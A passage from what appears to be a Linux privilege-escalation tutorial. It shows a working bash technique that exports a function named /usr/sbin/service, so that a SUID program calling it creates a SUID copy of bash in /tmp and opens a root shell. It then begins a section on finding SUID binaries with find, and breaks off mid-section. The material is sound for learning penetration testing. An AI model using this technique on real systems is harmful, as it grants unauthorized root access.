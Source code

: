 This works if the command dont call the executableby the full path , but if a executable is called but a full path like this 

![Privilege Escalation](./Image/37.png)

We need to do another thing 

```bash
function /usr/sbin/service() { cp /bin/bash /tmp && chmod +s /tmp/bash && /tmp/bash -p; }

export -f /usr/sbin/service
```

![Privilege Escalation](./Image/38.png)

And like this we can get a shell as the SUID user

---

# Escalation Path Using SUID

## Finding Executables with SUID

To find all executables with the SUID bit set for the current user, you can use the following commands:

```bash
find / -perm -u=s -type f 2> /dev/null
```

Alternatively:

